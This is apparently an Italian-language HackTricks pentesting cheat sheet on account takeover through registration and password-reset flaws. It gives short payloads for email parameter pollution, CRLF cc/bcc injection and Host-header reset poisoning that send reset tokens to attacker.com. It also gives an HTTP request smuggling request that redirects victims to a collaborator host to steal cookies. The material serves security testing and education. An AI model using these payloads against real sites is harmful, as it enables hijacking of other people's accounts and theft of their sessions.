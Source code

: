# Vulnerabilità di Registrazione e Presa di Controllo

{{#include ../banners/hacktricks-training.md}}

## Presa di Controllo della Registrazione

### Registrazione Duplicata

- Prova a generare utilizzando un nome utente esistente
- Controlla variando l'email:
- maiuscole
- \+1@
- aggiungi qualche punto nell'email
- caratteri speciali nel nome dell'email (%00, %09, %20)
- Metti caratteri neri dopo l'email: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Enumerazione degli Username

Controlla se riesci a capire quando un nome utente è già stato registrato all'interno dell'applicazione.

### Politica delle Password

Creando un utente controlla la politica delle password (controlla se puoi usare password deboli).\
In tal caso potresti provare a bruteforare le credenziali.

### SQL Injection

[**Controlla questa pagina** ](sql-injection/index.html#insert-statement)per imparare come tentare di prendere il controllo degli account o estrarre informazioni tramite **SQL Injections** nei moduli di registrazione.

### Presa di Controllo Oauth

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### Vulnerabilità SAML

{{#ref}}
saml-attacks/
{{#endref}}

### Cambia Email

Quando registrato prova a cambiare l'email e controlla se questo cambiamento è correttamente validato o se puoi cambiarlo in email arbitrarie.

### Ulteriori Controlli

- Controlla se puoi usare **email usa e getta**
- **Password** **Lunghe** (>200) portano a **DoS**
- **Controlla i limiti di velocità sulla creazione degli account**
- Usa username@**burp_collab**.net e analizza il **callback**

## **Presa di Controllo del Ripristino della Password**

### Perdita del Token di Ripristino della Password Via Referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Richiedi il ripristino della password al tuo indirizzo email
2. Clicca sul link di ripristino della password
3. Non cambiare la password
4. Clicca su qualsiasi sito web di terze parti (es: Facebook, Twitter)
5. Intercetta la richiesta nel proxy di Burp Suite
6. Controlla se l'intestazione referer sta perdendo il token di ripristino della password.

### Avvelenamento del Ripristino della Password <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Intercetta la richiesta di ripristino della password in Burp Suite
2. Aggiungi o modifica le seguenti intestazioni in Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Inoltra la richiesta con l'intestazione modificata\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Cerca un URL di ripristino della password basato sull'_intestazione host_ come: `https://attacker.com/reset-password.php?token=TOKEN`

### Ripristino della Password Tramite Parametro Email <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR su Parametri API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. L'attaccante deve accedere con il proprio account e andare alla funzione **Cambia password**.
2. Avviare Burp Suite e intercettare la richiesta.
3. Inviarla alla scheda ripetitore e modificare i parametri: User ID/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Token di Reset Password Debole <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Il token di reset della password dovrebbe essere generato casualmente e unico ogni volta.\
Cerca di determinare se il token scade o se è sempre lo stesso; in alcuni casi, l'algoritmo di generazione è debole e può essere indovinato. Le seguenti variabili potrebbero essere utilizzate dall'algoritmo.

- Timestamp
- UserID
- Email dell'utente
- Nome e Cognome
- Data di Nascita
- Criptografia
- Solo numeri
- Sequenza di token piccola (caratteri tra \[A-Z,a-z,0-9])
- Riutilizzo del token
- Data di scadenza del token

### Token di Reset Password in Fuga <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Attiva una richiesta di reset della password utilizzando l'API/UI per un'email specifica, ad es: test@mail.com
2. Ispeziona la risposta del server e controlla per `resetToken`
3. Quindi utilizza il token in un URL come `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Reset della Password Tramite Collisione di Nome Utente <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registrati nel sistema con un nome utente identico a quello della vittima, ma con spazi bianchi inseriti prima e/o dopo il nome utente. ad es: `"admin "`
2. Richiedi un reset della password con il tuo nome utente malevolo.
3. Usa il token inviato alla tua email e reimposta la password della vittima.
4. Connettiti all'account della vittima con la nuova password.

La piattaforma CTFd era vulnerabile a questo attacco.\
Vedi: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Presa di Controllo dell'Account Tramite Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Trova un XSS all'interno dell'applicazione o di un sottodominio se i cookie sono limitati al dominio principale: `*.domain.com`
2. Fuga il **cookie delle sessioni** attuali.
3. Autenticati come utente utilizzando il cookie.

### Presa di Controllo dell'Account Tramite HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Usa **smuggler** per rilevare il tipo di HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Crea una richiesta che sovrascriverà il `POST / HTTP/1.1` con i seguenti dati:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` con l'obiettivo di reindirizzare le vittime a burpcollab e rubare i loro cookie.\
3\. La richiesta finale potrebbe apparire come segue
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone riporta l'esploitazione di questo bug\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Account Takeover via CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Crea un payload per il CSRF, ad esempio: “Modulo HTML con invio automatico per un cambio password”
2. Invia il payload

### Account Takeover via JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token potrebbe essere utilizzato per autenticare un utente.

- Modifica il JWT con un altro User ID / Email
- Controlla la firma JWT debole

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Riferimenti

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
